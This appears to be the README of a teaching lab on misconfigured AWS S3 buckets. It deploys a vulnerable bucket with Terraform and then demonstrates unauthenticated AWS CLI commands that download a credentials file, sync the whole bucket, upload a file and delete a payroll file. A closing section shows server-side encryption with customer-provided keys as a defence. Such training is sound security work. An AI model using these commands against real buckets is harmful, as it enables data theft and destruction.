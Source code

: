 # S3 Misconfiguration

## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd s3misconfiguration/
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 7: Now lets perform all the possible attack scenario 

* Step 8: Lets first download the fishy files - change to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/abhi/seasides/

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 

# Defence with Encryption

Using Server Side encryption with Customer provided keys.

Step 1: Create a secrete file called secret.txt

```bash
echo "Welcome to Seasides, Your secret coupon is HASDJFH324878QWER" > secret.txt
```
Step 2: Lets generate a ecnryption key with AES-128-CBC encryption algorithm with openssl
note openssl is a widely used open-source cryptographic library and toolset

```bash
openssl enc -aes-128-cbc -k secret -P
```
Step 3: lets make the key an environmental variable

```bash
export key=<value of key>
```
Step 4: Lets upload the secret file along with the header encryption key
```bash
aws s3 cp secret.txt s3://$s3bucket/ --sse-c --sse-c-key $key
```

Now, Go to the console and try to access or view the secret file 

Step 5: Try to download the secret file 

```bash
aws s3 cp s3://$s3bucket/secret.txt .
```
It is clear that
* we wont be able to retrive or access those objects which have client side encryption.
* we wont be able to view the encrypted object in AWS Console

Step 6: Lets retrive it with our encryption key

```bash
aws s3 cp s3://$s3bucket/secret.txt . --sse-c --sse-c-key $key
```
Destroy the resources
```bash
terraform destroy -auto-approve
```
